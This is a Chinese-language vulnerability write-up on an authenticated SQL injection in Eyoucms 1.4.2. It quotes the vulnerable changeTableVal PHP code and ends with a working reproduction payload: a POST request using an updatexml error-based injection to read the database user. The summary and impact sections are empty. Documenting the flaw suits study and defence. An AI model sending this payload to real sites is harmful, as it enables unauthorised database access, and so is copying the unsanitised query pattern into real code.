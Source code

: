 Eyoucms 1.4.2 后台注入
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

/application/admin/controller/Index.php

    public function changeTableVal()
    {
        if (IS_AJAX_POST) {
            $url = null;
            $data = [
                'refresh'   => 0,
            ];
            $table = input('post.table/s'); // 表名
            $id_name = input('post.id_name/s'); // 表主键id名
            $id_value = input('post.id_value/s'); // 表主键id值
            $field  = input('post.field/s'); // 修改哪个字段
            $value  = input('post.value/s', '', null); // 修改字段值  
            switch ($table) {
                // 会员等级表
                case 'users_level':
                    {
                        $return = model('UsersLevel')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员属性表
                case 'users_parameter':
                    {
                        $return = model('UsersParameter')->isRequired($id_name,$id_value,$field,$value);
                        if (is_array($return)) {
                            $this->error($return['msg']);
                        }
                    }
                    break;
                
                // 会员中心菜单表
                case 'users_menu':
                    {
                        Db::name('users_menu')->where('id','gt',0)->update([
                                'is_userpage'   => 0,
                                'update_time'   => getTime(),
                            ]);
                        $data['refresh'] = 1;
                    }
                    break;
                
                // 会员投稿功能
                case 'archives':
                    {
                        if ('arcrank' == $field) {
                            if (0 == $value) {
                                $value = -1;
                            }else{
                                $value = 0;
                            }
                        }
                    }
                    break;
                // 会员产品类型表
                case 'users_type_manage':
                    {
                        if (empty($value)) {
                            $this->error('不可为空');
                        }
                    }
                    break;
                default:
                    # code...
                    break;
            }
            $savedata = [
                $field => $value,
                'update_time'   => getTime(),
            ];
            M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据
            // 以下代码可以考虑去掉，与行为里的清除缓存重复 AppEndBehavior.php / clearHtmlCache
            switch ($table) {
                case 'auth_modular':
                    extra_cache('admin_auth_modular_list_logic', null);
                    extra_cache('admin_all_menu', null);
                    break;
                
                default:
                    // 清除logic逻辑定义的缓存
                    extra_cache('admin_'.$table.'_list_logic', null);
                    // 清除一下缓存
                    // delFile(RUNTIME_PATH.'html'); // 先清除缓存, 否则不好预览
                    \think\Cache::clear($table);
                    break;
            }
            /*清除页面缓存*/
            // $htmlCacheLogic = new \app\common\logic\HtmlCacheLogic;
            // $htmlCacheLogic->clear_archives();
            /*--end*/
            
            $this->success('更新成功', $url, $data);
        }
    }

第307行：

    M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据

直接将函数头获取的POST传入SQL语句里面：

    $table = input('post.table/s'); // 表名
    $id_name = input('post.id_name/s'); // 表主键id名
    $id_value = input('post.id_value/s'); // 表主键id值
    $field  = input('post.field/s'); // 修改哪个字段
    $value  = input('post.value/s', '', null); // 修改字段值

### 漏洞复现

payload：

    http://0-sec.org/eyou/?m=admin&c=Index&a=changeTableVal


    post:

    table=admin&id_name=admin_id&id_value='1'//and//updatexml(1,concat(0x7e,user(),0x7e),1)

![](./.resource/Eyoucms1.4.2后台注入/media/rId26.png)

四、参考链接
------------

> http://www.f4ckweb.top/index.php/archives/47/
